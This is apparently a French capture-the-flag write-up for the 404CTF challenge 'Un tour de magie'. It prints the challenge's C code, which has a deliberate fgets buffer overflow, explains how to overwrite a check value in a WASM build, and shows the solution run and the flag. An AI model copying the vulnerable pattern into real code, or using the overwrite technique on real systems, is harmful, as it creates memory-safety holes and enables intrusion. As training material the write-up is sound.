

# Un tour de magie



Le fichier fourni : [tour-de-magie.zip](tour-de-magie.zip)

L'archive contient tous les éléments permettant de construire le challenge.

Le WASM a été construit à partir du code présent dans le fichier `main.c` :

```c
#include<stdlib.h>
#include<stdio.h>

int main() {
    int* check = malloc(sizeof(int));
    *check = 0xcb0fcb0f;
    puts("Alors, t'es un magicien ?");
    char input[20];
    fgets(input, 200, stdin);
    
    if(*check == 0xcb0fcb0f) {
        puts("Apparemment non...");
        exit(0);
    }
    if(*check != 0xcb0fcb0f && *check != 0x50bada55) {
        puts("Pas mal, mais il en faut plus pour m'impressionner !");
        exit(0);
    }
    if(*check == 0x50bada55) {
        puts("Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...");
        FILE* f = fopen("flag.txt", "r");
        if(f == NULL) {
            puts("Erreur lors de l'ouverture du flag, contactez un administrateur !");
            exit(1);
        }
        char c;
        while((c = fgetc(f)) != -1) {
            putchar(c);
        }
        fclose(f);
    }
}
```

Un buffer overflow est exploitable grâce au `fgets()` réalisé sur `200` octets max, alors que `input` est défini comme un tableau de `char` d'une taille de `20`.

En ELF classique, on trouverait le contenu de `check` stocké juste après `input`. Pour gagner le challenge, il suffirait alors de saisir un message contenant 20 caractères (`A` par exemple) suivi par `\x55\xda\xba\x50` (qui n'est autre que `x50bada55` en little-endian).

Le stockage en WASM est continu, mais différent.

> Je n'ai pas encore trouvé de ressource indiquant précisement comme cela est géré.

Grace au fait que sur le serveur, la valeur de `check` sous affichée, en tatonnant, on trouve à quel endroit doit être positionné `\x55\xda\xba\x50` :

```bash
$ nc localhost 4000
11a20Alors, t'es un magicien ?
AAAAAAAAAAAAAAAEDCBAAAA
Pas mal, mais il en faut plus pour m'impressionner !
41424344
```

On se sert du script [`magie-solution.py`](magie-solution.py) pour communiquer avec le serveur et lui transmettre le message :

```bash
$ python3 magie-solution.py REMOTE
[+] Opening connection to challenges.404ctf.fr on port 30274: Done
11a20Alors, t'es un magicien ?
[+] Receiving all data: Done (118B)
[*] Closed connection to challenges.404ctf.fr port 30274
Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...
404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}
```

On obtient ainsi le flag : `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`
